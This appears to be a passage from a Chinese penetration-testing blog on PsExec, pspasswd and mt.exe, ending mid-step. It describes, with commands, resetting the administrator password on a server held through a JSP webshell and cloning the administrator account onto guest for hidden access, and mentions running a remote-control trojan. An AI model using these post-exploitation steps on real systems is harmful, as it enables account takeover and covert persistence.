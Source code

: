 **测试如图：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100922154360.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
当然你也可运行一个远控木马这些都可以~~~

Psexec 的介绍就到这里了。

pspasswd的应用详解

Pspasswd是一个用来更改用户密码的工具，支持远程密码修改和本地密码修改。这款工具的特点就是不依靠net,exe程序进行密码修改。

本地修改命令如下：

    pspasswd administrator yueyan
    
        

**演示图如下：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100922160262.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
远程命令如下：

    pspasswd \\192.168.1.3 –u administrator –p 123456 guest yueyan
    
        

命令的意思就是，用administrator这个管理员账户登录后修改用户guest的密码为yueyan

相对来说本地修改密码的功能更强大一些。

**我这将介绍个实例：**

我的一个好基友Lynn得到一个jsp马，并且是nt authority\\system权限。但是无法添加用户，且无法用net修改管理员密码。抓取hash密码大于14位，LMhash无效，本地又为搭建彩虹表，网上破解无果。Hash传递登陆被拦截。但是机油lynn却一直想用administrator这个用户登陆进去，当然方法还有很多，比如： mimikatz.exe抓取明文密码等，这里我将介绍pspasswd的妙用。

我们想用administrator这个账户登陆进去。很简单，直接上传一个pspasswd上服务器。

执行下面的命令：

首先执行`D:\web|pspasswd.exe –accepteula` （第一次执行，表示许可执行的意思）

    D:\web|pspasswd.exe administrator yueyan
    
        

就会成功修改administrator的密码。

这里能修改密码的原因是pspasswd不是调用net.exe进行密码修改。

**上述介绍常常配合mt.exe进行用户克隆。这里简单介绍：**

（关于mt.exe的详细介绍请访问：【工具】mt.exe的详细介绍）

首先mt.exe查看用户sid，比较后看是否有克隆账户

    Mt -chkuser
    
        

比较后，没有克隆账户，我们选择guest这个账户进行克隆：

    Mt –clone administrator guest
    
        

然后配合pspasswd修改密码：

